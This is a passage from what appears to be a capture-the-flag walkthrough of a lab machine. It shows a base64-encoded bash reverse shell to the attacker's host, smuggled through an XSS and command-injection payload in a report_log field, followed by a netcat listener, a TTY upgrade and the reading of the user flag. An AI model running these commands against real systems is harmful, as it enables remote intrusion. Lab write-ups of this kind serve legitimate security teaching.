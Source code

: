 #### Shell

To limit special characters in the payload, I’ll create a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) and base64 encode it:

```

oxdf@hacky$ echo "bash -c 'bash -i  >& /dev/tcp/10.10.14.6/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMScK

```

With a little trial and error I found an extra space between `-i` and `>&` resulted in no special characters. I’ll update the XSS payload one more time, this time with `report_log=|echo 'YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMScK' | base64 -d | bash`. I’ll trigger the XSS again, and when it runs, a shell arrives at port 443:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.190 41982
bash: cannot set terminal process group (806): Inappropriate ioctl for device
bash: no job control in this shell
rails@derailed:/var/www/rails-app$

```

I’ll upgrade using the [stty / script](https://www.youtube.com/watch?v=DqE6DxqJg8Q) trick:

```

rails@derailed:/var/www/rails-app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
rails@derailed:/var/www/rails-app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
rails@derailed:/var/www/rails-app$

```

I can also grab `user.txt` now:

```

rails@derailed:~$ cat user.txt
c4aaa505************************

```

### SSH
